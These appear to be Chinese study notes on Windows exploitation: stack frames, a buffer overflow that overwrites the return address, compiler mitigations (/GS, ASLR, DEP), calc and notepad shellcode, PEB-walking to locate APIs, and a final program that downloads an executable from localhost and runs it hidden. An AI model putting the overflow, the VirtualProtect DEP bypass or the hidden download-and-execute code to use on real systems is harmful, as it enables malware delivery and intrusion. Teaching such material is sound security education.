

// Please use Orangeheart Theme for better reading

- [链接和编译](#链接和编译)
- [栈溢出和堆溢出（缓冲区溢出）](#栈溢出和堆溢出缓冲区溢出)
- [Visual Studio 编译器选项](#visual-studio-编译器选项)
  - [/GS（缓冲区安全检查）](#gs缓冲区安全检查)
  - [/DYNAMICBASE（动态基址）](#dynamicbase动态基址)
  - [/DEP（数据执行保护）](#dep数据执行保护)
- [ShellCode](#shellcode)
- [PE的结构](#pe的结构)
- [DLL](#dll)


## 链接和编译

```bash
cl /c t.c
# cl /c /MT /GS- t.c

link.exe t.obj
# link.exe /entry:main t.obj
# link.exe /entry:cuc t.obj /subsystem:console /out:t2.exe ##不写main
t.exe

dumpbin /headers t.exe

dumpbin /disasm t.exe # 反汇编
```

函数的开始：`push ebp` 结束：`pop ebp`

```cpp
int sum(int a, int b)
{
	return a + b;
}
int main()
{
	int x = sum(10, 20);
	return 0;
}
```

```asm
  00401000: 55                 push        ebp # 把ebp指向的地址作为固定的基址
  00401001: 8B EC              mov         ebp,esp # 栈顶指针赋值给ebp
  00401003: 8B 45 08           mov         eax,dword ptr [ebp+8] 
  00401006: 03 45 0C           add         eax,dword ptr [ebp+0Ch]
  00401009: 5D                 pop         ebp
  0040100A: C3                 ret
  0040100B: CC                 int         3
  0040100C: CC                 int         3
  0040100D: CC                 int         3
  0040100E: CC                 int         3
  0040100F: CC                 int         3
  00401010: 55                 push        ebp
  00401011: 8B EC              mov         ebp,esp
  00401013: 51                 push        ecx
  00401014: 6A 14              push        14h # 入栈，进入ESP指向地址，值对应第一个参数20
  00401016: 6A 0A              push        0Ah # 对应第二个参数10
  00401018: E8 E3 FF FF FF     call        00401000 # call=push(下一条指令地址)+jmp(被调用函数地址)
  0040101D: 83 C4 08           add         esp,8 # 前面入栈，栈指针地址不断减小，这步相当于直接清栈
  00401020: 89 45 FC           mov         dword ptr [ebp-4],eax # [ebp-4] x的地址，给局部变量分配空间
  00401023: 33 C0              xor         eax,eax # 存放返回值
  00401025: 8B E5              mov         esp,ebp # 栈指针回到基址地址
  00401027: 5D                 pop         ebp
  00401028: C3                 ret		   # return=pop(esp)+jmp(esp) 栈顶指针出栈，跳到ESP执行 
```

- int 和 dword 长度都是4字节，但前者有符号，后者没有符号。
- 寄存器 
  - EIP 当前指令指针
  - ESP 栈指针寄存器，指向栈顶
  - EBP 基址指针

```cpp
int func2(int a, int b) 
{
	int v = 100;
	return 0;
}
int func1(int a, int b)
{
	func2(a + 1, b + 1);
	return 1;
}
int main()
{
	int x = func1(10, 20);
	int y = func2(1, 2);
	return 0;
}
```


## 栈溢出和堆溢出（缓冲区溢出）

```cpp
#include <string.h>
#include <stdio.h>

void hacked() {
	printf("be hacked");
}
int overflow() {
	char vul[4];
	char* x = "\x10\x11\x12\x13\x14\x15\x16\x17\xE0\x15\x01\x04";
  /* 逆序存入
  void hacked() {
	040115E0  push        ebp // 对应最后四个字节
	...
	中间的四个字节是overflow开始入栈的ebp占据的位置。
  */
	strcpy(vul, x);
  // 此时EBP = 溢出部分（倒序）
	// strcpy_s(vul, strlen(x)+1, x);
	return 0;
}

int main() {
	overflow();
	return 0;
}
```

程序虽然崩溃，但仍能输出"be hacked"。

x存入时缓冲区溢出，覆盖掉了原来的EBP，程序接着从用户输入的数据中开始溢出的地方执行。

malloc操作在每块内存后面增加了前向节点和后向节点地址，构成双向链表。这样写越界时（堆溢出）即可修改内存中任意位置。


---


## Visual Studio 编译器选项

### [/GS](https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check?view=vs-2019)（缓冲区安全检查）

原理：在返回地址前（esp和局部变量之间）中增添一个随机数`security cookie`，函数退出时检查cookie的值是否发生了变化，如果变化说明缓冲区溢出覆盖了部分cookie的值。

> On functions that the compiler recognizes as subject to buffer overrun problems, the compiler allocates space on the stack before the return address. On function entry, the allocated space is loaded with a *security cookie* that is computed once at module load. On function exit, and during frame unwinding on 64-bit operating systems, a helper function is called to make sure that the value of the cookie is still the same. A different value indicates that an overwrite of the stack may have occurred. If a different value is detected, the process is terminated.

由它的原理可以理解，/GS不能保护小于四字节的结构或者包含有指针的结构。

/GS是默认开启的，如果禁用格式为`/GS-`。

### [/DYNAMICBASE](https://docs.microsoft.com/en-us/cpp/build/reference/dynamicbase?view=vs-2019)（动态基址）

加载时随机重新设置应用程序的基址，并启用虚拟地址分配随机化，这会影响堆栈等分配的虚拟内存位置。

使用/FIXED (固定基址)起到相反作用。

### /DEP（数据执行保护）

若不开启，攻击者判断好输入数据中攻击代码的地址，绕过动态基址。

预先分配好程序和数据所在的内存，EIP只能在代码内存中执行，若超出范围则返回异常。

[ShellCode启动系统中的计算器](https://www.exploit-db.com/shellcodes/48116) 开启DEP后无法正常运行

使用VirtualProtect可开启虚拟内存保护，无视DEP

```cpp
int main(int argc, char **argv)
{
  int (*func)(); //定义函数指针类型为func，把函数作为变量使用
  // add                            最高权限：内存分页 可读-可写-可执行
  Dword old_project;
  VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_project);
  //
  func = (int(*)()) code; // 强制类型转换，把code数组强制转换成函数
  (int)(*func)();
}
```


EXP（exploit）

---


## ShellCode

[Calc](https://www.exploit-db.com/shellcodes/48116)

Calc->notepad

[自动打开notepad代码链接](notepad.cpp)

```asm
; push 0x6578652e; exe. : 6578652e
; push 0x636c6163; clac: 636c6163
push 0x00657865;  exe : 00657865
push 0x2e646170; .dap : 2e646170
push 0x65746f6e; eton : 65746f6e
```

使用

```bash
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

可以编译成十六进制字节形式。



shellcode没有CreateProcess，所以只能自己去找。

> ### 通用shellcode
>
> 所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个最基础的动态链接库。攻击代码没有经过链接的过程，不知道API的地址。如果想要
> 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法。
>
> 1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。
> 2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。
> 3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针，
>    其中，存放着已经被进程装载的动态链接库的信息。
> 4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指
>    针 InInitializationOrderModuleList。
> 5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化
>    模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。
> 6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的
>    加载基地址。
> 7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。
> 8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。
> 9. 导出表0x1C处的指针指向存储导出函数偏移地址（RVA）的列表->导出表偏移0x20处的指针指向存储导出函数函数名的列表->函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA—>获得RVA后，再加上前面已经得到的动态链接库的加载基址，就获得了所需API此刻在内存中的虚拟地址。
>
> ### fs是什么?TEB是什么?
>
> - fs是一个寄存器,只不过不可见
> - 在NT内核系统中fs寄存器指向TEB结构
> - TEB+0x30处指向PEB结构

## PE的结构

[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)

可执行文件，起始为MZ头，二进制 3CH处记录了文件起始位置的偏移量，PE标志为`50 45 00 00`，创建时间为timestamp格式。


---


## DLL

WinExec事实上执行[CreateProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/creating-processes)

```cpp
main(int argc, TCHAR* argv[]);
argument_counter argument_vector
表示命令行以空格分隔参数，如果参数内需要空格可以加引号。
```

```c
if (!CreateProcess(NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi)           // Pointer to PROCESS_INFORMATION structure
        )
```

CreateProcess完成了动态链接，并跳到entrypoint运行下一步。即完成了父进程向子进程的调用。

```c
// 代码功能：修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
#include <urlmon.h>
#include <Windows.h>

typedef HRESULT (WINAPI * MY_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	// 调用函数不会导入表显示有URLDownloadToFile函数。
	// urlmon.dll默认不加载，所以需要手动先行加载
    // 要获得函数地址，dll必须在内存中，kernel32是默认加载的，提供LoadLibrary函数
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_PROC function_ptr = (MY_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
    // 遍历导出表也可以实现GetProcAddress相同的效果
	// URLDownloadToFile <=> function_ptr
	function_ptr(
		NULL,
		"http://localhost:8000/Project1.exe",
		"a.exe",
		0,
		NULL
	);
	WinExec("a.exe", SW_HIDE);
}
```


